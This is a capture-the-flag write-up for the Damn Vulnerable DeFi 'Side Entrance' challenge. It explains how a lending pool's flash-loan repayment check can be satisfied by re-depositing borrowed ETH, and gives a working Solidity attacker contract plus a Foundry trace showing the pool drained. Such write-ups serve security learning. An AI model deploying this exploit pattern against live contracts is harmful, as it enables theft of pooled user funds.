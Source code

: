 ## SideEntrance challenge


## Challenge Overview:
A deceptively simple lending pool allows anyone to:

- Deposit ETH.
- Withdraw ETH at any time.
- Take out flash loans with **zero fees** using **deposited ETH**.

>  The pool already contains **1000 ETH**, and your account starts with just **1 ETH**.
>  Your goal is to **drain all ETH from the pool and deposit it into the provided recovery address**.


##  Vulnerability Explanation:

The contract logic enables an attacker to:

1. **Borrow ETH** through the `flashLoan` function.
2. Within the `execute()` callback (called during the flash loan), **re-deposit** the same borrowed ETH using `deposit()`.
3. This **satisfies the flash loan repayment check**, even though the attacker still “owns” the deposited ETH via their internal balance.
4. After the loan, the attacker calls `withdraw()` to **withdraw the same ETH** as if it were theirs.
5. Funds are transferred to the attacker and then **forwarded to the recovery account** via the `receive()` function.

This exploit works because the pool **does not differentiate** between repaying a flash loan and depositing user funds.

## Vulnerable Code:

```solidity
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();// first this function

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
    //second withdraw function:
    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount); //it looks like call function and  no calldata==>go to the recevier function 
    }

```

## Exploiter Strategy:

1.Deploy an attacker contract with access to the pool and recovery address.

2.Call flashLoan() to borrow the full balance.

3.In execute(), re-deposit the borrowed ETH back into the pool.

4.The loan is considered repaid due to the balance check.

5.Call withdraw() to drain the ETH.

When ETH is sent via .call, receive() forwards all funds to the recovery account.

### Exploit Code:
```solidity
// call the attacker contract
function test_sideEntrance() public checkSolvedByPlayer {
        SideAttranceAttack attack = new SideAttranceAttack(
            address(pool),
            recovery
        );
        attack.Attack();
    }


//Attacker Contract
contract SideAttranceAttack {
    address public pool;
    address public recovery;

    constructor(address _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function Attack() external {
        SideEntranceLenderPool(pool).flashLoan(address(pool).balance);//borrower initating falshLoan
        SideEntranceLenderPool(pool).withdraw(); //after the flashLoan,withdraw all the ether in the pool -->recovery Account
    }

    
    function execute() external payable {
        SideEntranceLenderPool(pool).deposit{value: msg.value}();// deposit back to the pool through deposit function
    }

    receive() external payable {
        payable(recovery).transfer(msg.value);//transfer to the recovery Account
    }
}
```     
### Proof Of Exploit:

```yaml
Ran 1 test for test/side-entrance/SideEntrance.t.sol:SideEntranceChallenge
[PASS] test_sideEntrance() (gas: 347842)
Traces:
  [367742] SideEntranceChallenge::test_sideEntrance()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [235535] → new SideAttranceAttack@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 952 bytes of code
    ├─ [86321] SideAttranceAttack::Attack()
    │   ├─ [38751] SideEntranceLenderPool::flashLoan(1000000000000000000000 [1e21])
    │   │   ├─ [31244] SideAttranceAttack::execute{value: 1000000000000000000000}()
    │   │   │   ├─ [23951] SideEntranceLenderPool::deposit{value: 1000000000000000000000}()
    │   │   │   │   ├─ emit Deposit(who: SideAttranceAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   ├─ [43561] SideEntranceLenderPool::withdraw()
    │   │   ├─ emit Withdraw(who: SideAttranceAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   ├─ [34590] SideAttranceAttack::receive{value: 1000000000000000000000}()
    │   │   │   ├─ [0] recovery::fallback{value: 1000000000000000000000}()
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(0, 0, "Pool still has ETH") [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(1000000000000000000000 [1e21], 1000000000000000000000 [1e21], "Not enough ETH in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.78ms (757.72µs CPU time)

Ran 1 test suite in 1.61s (5.78ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

Simple Understanding Case:
[PASS] test_sideEntrance() (gas: 347842)
Traces:
  SideAttranceAttack::Attack()
    ├─ flashLoan(1000 ETH)
    │   └─ execute{value: 1000 ETH} → deposit()
    └─ withdraw() → receive() → forward to recovery 

assertEq(Pool.balance, 0) 
assertEq(Recovery.balance, 1000 ETH) 
```

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/damn-vulnerable-defi)
